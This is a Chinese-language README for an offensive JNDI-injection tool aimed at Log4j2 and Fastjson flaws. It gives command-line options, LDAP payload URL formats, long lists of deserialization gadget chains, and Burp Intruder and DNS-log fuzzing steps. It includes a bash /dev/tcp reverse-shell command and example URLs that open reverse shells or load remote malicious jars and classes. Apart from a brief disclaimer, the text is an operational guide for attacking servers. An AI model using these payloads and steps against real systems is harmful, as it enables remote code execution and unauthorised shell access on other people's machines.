


# JNDIExp使用说明

用于 JNDI注入 利用的工具，参考/引用了 **Rogue JNDI** /**JNDIExploit**项目的代码。

## **免责说明**

本工具仅适用于安全研究，严禁适用本工具发起网络黑客攻击，造成法律后果，请使用者自负。

- - - -


## **使用说明**
- - - -
```java
Usage: java -jar JNDIInject-1.0-SNAPSHOT.jar [options]
  Options:
    -i, --ip       Local ip address  (default: 0.0.0.0)
    -l, --ldapPort Ldap bind port (default: 1389)
    -p, --httpPort Http bind port (default: 8080)
    -u, --usage    Show ALL usage (default: false)
    -f, --format   Show usage format (default: false)
    -L, --list     Show Payload List (default: false)
    -h, --help     Show this help
```
**使用`java -jar JNDIInject.jar -u`查看全部完整的支持的 LDAP 格式以及爆破的字典**

```java
java -jar JNDIInject.jar -u

Supported LADP Queries：
* all words are case INSENSITIVE when send to ldap server

[+] Basic Queries: ldap://0.0.0.0:1389/basic/[PayloadType]/[Params], e.g.
    ldap://0.0.0.0:1389/basic/Command/base64/[base64_encoded_cmd]
    ldap://0.0.0.0:1389/basic/ReverseShell/[ip]/[port]  ---windows NOT supported

[+] ByPass Queries: ldap://0.0.0.0:1389/bypass/[PayloadType]/[Type]/[Params], e.g.
    ldap://0.0.0.0:1389/bypass/[PayloadType]/[cmd]
    ldap://0.0.0.0:1389/bypass/[PayloadType]/base64/[base64_encoded_cmd]
    ldap://0.0.0.0:1389/bypass/[PayloadType]/reverseshell/[ip]/[port]  ---windows NOT supported
    ldap://0.0.0.0:1389/bypass/[PayloadType]/reverseshell2/[ip]/[port]  ---windows NOT supported
    ----------------------------------------------------------------------------------------->

[+] Fuzz Queries: ldap://0.0.0.0:1389/fuzz/[GadgetType]/[domain], e.g.
    ldap://0.0.0.0:1389/fuzz/[PayloadType]/[domain]
    ----------------------------------------------------------------------------------------->

[+] Fuzz2 Queries: ldap://0.0.0.0:1389/fuzz2/[GadgetType]/[domain], e.g.
    ldap://0.0.0.0:1389/fuzz2/[PayloadType]/[domain]

      
[*] **ByPass/Fuzz2** PayloadType that can be used: 
	CommonsBeanutils1
  CommonBeanutilsNoCC
  CommonsCollections1
  CommonsCollections2
  CommonsCollections3
  CommonsCollections4
  CommonsCollections5
  CommonsCollections6
  CommonsCollections7
  CommonsCollectionsK1
  CommonsCollectionsK2
  CommonsCollectionsK3
  CommonsCollectionsK4
  C3P0
  C3P0Tomcat
  groovyBytomcat
  Clojure
  BeanShell1
  JSON1
  Spring1
  Spring2
  Hibernate1
  Myfaces1
  MozillaRhino1
  rome
  groovy1
  EL
  snakeyaml
  XStream
  mvel
  BeanShell2
  tomcat_dbcp1_RCE
  tomcat_dbcp2_RCE
  commons_dbcp1_RCE
  commons_dbcp2_RCE
  druidjdbc
  tomcatjdbc
  Vaadin1
    
    
    
[*] **Fuzz** PayloadType that can be used: 
	EL
  BeanShell2
  groovyBytomcat
  h2Driver
  tomcat_dbcp1_RCE
  commons_dbcp2_RCE
  commons_dbcp1_RCE
  druidjdbc
  tomcatjdbc
  snakeyaml
  XStream
  mvel
  CommonsBeanutils1
  CommonsCollectionsK1
  CommonsCollectionsK2
  Clojure
  Groovy
  C3P0
  JSON1
  FileUpload1
  hibernate
  MozillaRhino1
  rome


```
**使用`java -jar JNDIInject.jar -f`查看全部 LDAP 的格式**

**使用`java -jar JNDIInject.jar -L`查看各个模块可以使用的利用类**


## FUZZ模块

#### 说明：

由于可利用的链较多，各个利用链都有需要的依赖包，所以设计使用比较笨的方法进行fuzz，尽可能判断出可以利用的利用链。
本模块利用tomcat中的`org.apache.naming.factory.BeanFactory`和JDK自带的MLET类进行fuzz。

**缺点：**

1. 需要依赖tomcat的ObjectFactory类(org.apache.naming.factory.BeanFactory
2. 需要配合burpsutite的intruder模块
3. 配合http平台接收请求(推荐ceye)(使用`python3 -m http.server port`简易http接受请求)
下列为Fuzz使用的字典。
4. **使用tomcat时由于使用的ParallelWebappClassLoader加载第三方lib，所以MLET加载class会报错，故无法使用此模块进行爆破**（后续考虑删除此模块）
#### **使用步骤：**

1. 利用DNSLOG发现log4j2漏洞或者Fastjson类能够发起ldap请求的漏洞。
2. 在目标可以访问的服务器上(vps或内网服务器)开启本工具进行监听


1. 使用BurpSuite intruder模块，利用字典替换fuzz后面的字段，进行爆破
2. 工具上收到请求后，去http平台上查看存在请求的类名。
3. http平台接收到类名基本上存在可利用的链(存在最新版本，反序列化无法利用的情况




- - - -
## FUZZ2模块
#### **说明：**

1. 使用方法同上,直接使用已有的利用链直接生成发起dns请求的命令，搭配dns平台进行fuzz

2. 原理：使用各个利用链发起dns请求。

3. `ldap://0.0.0.0:1389/fuzz2/EL/xxxx.dnslog.cn`

下列为FUZZ使用字典

```
CommonsBeanutils1
CommonsCollections1
CommonsCollections2
CommonsCollections3
CommonsCollections4
CommonsCollections5
CommonsCollections6
CommonsCollections7
CommonsCollectionsK1
CommonsCollectionsK2
CommonsCollectionsK3
CommonsCollectionsK4
C3P0
C3P0Tomcat
groovyBytomcat
Clojure
BeanShell1
JSON1
Spring1
Spring2
Hibernate1
Myfaces1
MozillaRhino1
rome
groovy1
EL
snakeyaml
XStream
mvel
BeanShell2
tomcat_dbcp1_RCE
tomcat_dbcp2_RCE
commons_dbcp1_RCE
commons_dbcp2_RCE
druidjdbc
tomcatjdbc
Vaadin1
CommonBeanutilsNoCC
```


## basic模块
**说明：**低版本的java环境包括11.0.1, 8u191, 7u201, 6u211版本开始做了限制之前的利用方式。本模块使用http请求的方式，返回给受害者恶意类执行。
**使用说明：**
```apl
/basic/base64/[base64_encode_command]
/basic/reverseshell/ip/port
```
reverseshell执行的命令为：`bash -c $@|bash 0 echo bash -I >& /dev/tcp/ip/port 0>&1`


## bypass模块
**说明：**使用两种加载本地classpath的类进行绕过的方法：

1. 找到一个受害者本地CLASSPATH中的类作为恶意的Reference Factory工厂类，并利用这个本地的Factory类执行命令。
2. 利用LDAP直接返回一个恶意的序列化对象，JNDI注入依然会对该对象进行反序列化操作，利用反序列化Gadget完成命令执行。这里使用ysoserial的反序列化链

可以使用链(PayloadType)：
```
CommonsBeanutils1
CommonBeanutilsNoCC
CommonsCollections1
CommonsCollections2
CommonsCollections3
CommonsCollections4
CommonsCollections5
CommonsCollections6
CommonsCollections7
CommonsCollectionsK1
CommonsCollectionsK2
CommonsCollectionsK3
CommonsCollectionsK4
C3P0
C3P0Tomcat
groovyBytomcat
Clojure
BeanShell1
JSON1
Spring1
Spring2
Hibernate1
Myfaces1
MozillaRhino1
rome
groovy1
EL
snakeyaml
XStream
mvel
BeanShell2
tomcat_dbcp1_RCE
tomcat_dbcp2_RCE
commons_dbcp1_RCE
commons_dbcp2_RCE
druidjdbc
tomcatjdbc
Vaadin1
```
可使用的利用方式
```
/[cmd]
/base64/[base64_cmd]
/reverseshell/[ip]/[port]
/reverseshell2/[ip]/[port]
```
可以进行组合执行
```
ldap://ip:port/bypass/mvel/open%20-a%20calculator
ldap://ip:port/bypass/mvel/base64/b3BlbiAtYSBjYWxjdWxhdG9y
ldap://ip:port/bypass/mvel/reverseshell/127.0.0.1/4444
ldap://ip:port/bypass/mvel/reverseshell2/127.0.0.1/4444
```

## 利用链特殊说明

**snakeyaml ：**  `command=http://127.0.0.1:8080/exp.jar 加载恶意类`。可以使用提供的yaml-payload-master(需要修改代码，重新生成jar，内附使用说明)。无法使用reverseshell。

```java
ldap://ip:port/bypass/snakeyaml/http://127.0.0.1:8080/exp.jar
ldap://ip:port/bypass/snakeyaml/base64/aHR0cDovLzEyNy4wLjAuMTo4MDgwL2V4cC5qYXI%3D
```

**C3p0 ：**`command=http://127.0.0.1:8080:Exploit(端口为默认为8080)`  data目录下的Exploit可以进行参考,直接修改Exploit.java的命令使用javac编译(不用另外起http服务)

```java
ldap://ip:port/bypass/snakeyaml/http://127.0.0.1:8080:Exploit
ldap://ip:port/bypass/snakeyaml/base64/aHR0cDovLzEyNy4wLjAuMTo4MDgwOkV4cGxvaXQ%3D
```


## Fuzz案例：

发现Log4j2漏洞或者fastjson漏洞后，使用burp的intruder模块进行fuzz(简单直接)

##  

添加Fuzz2的字典。（可以设置一下发包间隔1s）



去DNS平台查询结果


# 总结

能用就行

